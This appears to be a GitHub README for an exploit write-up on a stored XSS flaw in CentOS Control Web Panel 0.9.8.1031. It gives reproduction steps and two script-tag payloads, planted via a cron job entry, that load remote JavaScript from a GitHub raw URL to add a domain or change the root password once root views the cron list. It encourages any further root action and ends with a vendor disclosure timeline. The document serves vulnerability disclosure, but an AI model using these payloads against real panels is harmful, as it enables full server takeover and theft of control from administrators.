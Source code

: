 Exploiting an XSS vulnerability in the CWP control panel and escalating the attack to change the root password...

# Information

```
# Exploit Title       : CWP (CentOS Control Web Panel) Version 0.9.8.1031 - XSS to full root takeover
# Date                : 7 january 2021
# Exploit Author      : Chokri B.A.
# Vendor Homepage     : https://control-webpanel.com/
# Software Link       : Not available, user panel only available for lastest version
# Version             : 0.9.8.1031
# Tested on           : CentOS 7 / CentOS 6
# CVE                 : #
```

# Description
A simple user can add/delete/modify any option on behalf of the root user, and even change the root's password via a stored XSS vulnerability.

#  Steps to Reproduce
1. Login into the CentOS Web Panel using user credential
2. Create a new cron job using your prefered XSS payload.
3. Login as root and navigate to the list of cronjobs
4. the XSS payload will get executed.

#  Escalating
I've created 2 examples on how you can escalate this attack to take control of the full server.

1. <b>PayloadAddDomain.js</b> : add this code as your cronjob, when the root user list the cronjobs, a new domain name will be added under the choosen user.
``` 
<script type="text/javascript" src="https://raw.githubusercontent.com/TnExperts/cwppoc/main/PayloadAddDomain.js"></script>
```


2. <b>PayloadChangeRootPass.js</b> add this code as your cronjob, when the root user list the cronjobs, you will be able to change to root's password and take control of the full server.
``` 
<script type="text/javascript" src="https://raw.githubusercontent.com/TnExperts/cwppoc/main/PayloadChangeRootPass.js"></script>
```

3. You can perform any action you want as the root user. Your imagination is the limit....


#  Timeline

```
2021-01-07: Discovered the bug
2021-01-08: Reported to vendor
#: Vender accepted the vulnerability
#: The vulnerability has been fixed
#: Published
```
